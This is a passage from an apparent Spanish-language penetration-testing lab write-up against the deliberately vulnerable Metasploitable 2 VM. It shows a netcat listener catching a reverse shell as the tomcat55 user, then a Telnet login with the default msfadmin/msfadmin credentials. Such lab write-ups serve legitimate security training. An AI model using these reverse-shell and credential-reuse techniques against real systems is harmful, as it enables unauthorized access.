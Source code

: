 Pongo en escucha

```
❯ sudo nc -lvnp 4444
[sudo] password for noroot: 
listening on [any] 444 ...
connect to [192.168.0.107] from (UNKNOWN) [192.168.0.110] 42626
whoami
tomcat55
hostname
metasploitable
```

----

## Telnet 23

Telnet es el nombre de un protocolo de red que nos permite acceder a otra máquina para manejarla remotamente como si estuvieramossentados delante de ella.

Reutilizacion de credenciales

```
❯ telnet 192.168.0.100
Trying 192.168.0.100...
Connected to 192.168.0.100.
Escape character is '^]'.
                _                  _       _ _        _     _      ____  
 _ __ ___   ___| |_ __ _ ___ _ __ | | ___ (_) |_ __ _| |__ | | ___|___ \ 
| '_ ` _ \ / _ \ __/ _` / __| '_ \| |/ _ \| | __/ _` | '_ \| |/ _ \ __) |
| | | | | |  __/ || (_| \__ \ |_) | | (_) | | || (_| | |_) | |  __// __/ 
|_| |_| |_|\___|\__\__,_|___/ .__/|_|\___/|_|\__\__,_|_.__/|_|\___|_____|
                            |_|                                          


Warning: Never expose this VM to an untrusted network!

Contact: msfdev[at]metasploit.com

Login with msfadmin/msfadmin to get started


metasploitable login: msfadmin
Password: 
Last login: Wed Oct 13 12:31:34 EDT 2021 on tty1
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To access official Ubuntu documentation, please visit:
http://help.ubuntu.com/
No mail.
msfadmin@metasploitable:~$ whoami
msfadmin
```
